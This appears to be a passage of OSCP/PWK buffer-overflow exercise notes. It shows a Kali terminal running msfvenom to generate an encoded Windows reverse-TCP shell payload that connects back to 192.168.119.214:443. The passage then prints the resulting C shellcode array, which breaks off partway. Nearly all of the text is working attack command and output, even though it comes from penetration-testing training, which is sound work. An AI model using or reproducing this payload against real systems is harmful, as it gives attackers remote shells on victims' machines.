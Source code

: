 ![08b7a1345c23b587270acec54a172e55.png](../../../../_resources/251bd4920ac14a48b828866de318a0ce.png)

## Generate shellcode
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/11_windowsBufferOverflow/vuln3$ msfvenom -p windows/shell_reverse_tcp lhost=192.168.119.214 lport=443 -f c -e x86/shikata_ga_nai -b "\x00\xc5"
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of c file: 1500 bytes
unsigned char buf[] = 
"\xba\x50\x3e\xd8\x88\xdb\xd8\xd9\x74\x24\xf4\x5b\x33\xc9\xb1"
"\x52\x83\xc3\x04\x31\x53\x0e\x03\x03\x30\x3a\x7d\x5f\xa4\x38"
"\x7e\x9f\x35\x5d\xf6\x7a\x04\x5d\x6c\x0f\x37\x6d\xe6\x5d\xb4"
"\x06\xaa\x75\x4f\x6a\x63\x7a\xf8\xc1\x55\xb5\xf9\x7a\xa5\xd4"
"\x79\x81\xfa\x36\x43\x4a\x0f\x37\x84\xb7\xe2\x65\x5d\xb3\x51"
"\x99\xea\x89\x69\x12\xa0\x1c\xea\xc7\x71\x1e\xdb\x56\x09\x79"
"\xfb\x59\xde\xf1\xb2\x41\x03\x3f\x0c\xfa\xf7\xcb\x8f\x2a\xc6"
"\x34\x23\x13\xe6\xc6\x3d\x54\xc1\x38\x48\xac\x31\xc4\x4b\x6b"
"\x4b\x12\xd9\x6f\xeb\xd1\x79\x4b\x0d\x35\x1f\x18\x01\xf2\x6b"
"\x46\x06\x05\xbf\xfd\x32\x8e\x3e\xd1\xb2\xd4\x64\xf5\x9f\x8f"
"\x05\xac\x45\x61\x39\xae\x25\xde\x9f\xa5\xc8\x0b\x92\xe4\x84"
"\xf8\x9f\x16\x55\x97\xa8\x65\x67\x38\x03\xe1\xcb\xb1\x8d\xf6"
"\x2c\xe8\x6a\x68\xd3\x13\x8b\xa1\x10\x47\xdb\xd9\xb1\xe8\xb0"
"\x19\x3d\x3d\x16\x49\x91\xee\xd7\x39\x51\x5f\xb0\x53\x5e\x80"
"\xa0\x5c\xb4\xa9\x4b\xa7\x5f\x16\x23\xd0\x49\xfe\x36\x1e\x77"
"\x44\xbf\xf8\x1d\xaa\x96\x53\x8a\x53\xb3\x2f\x2b\x9b\x69\x4a"
```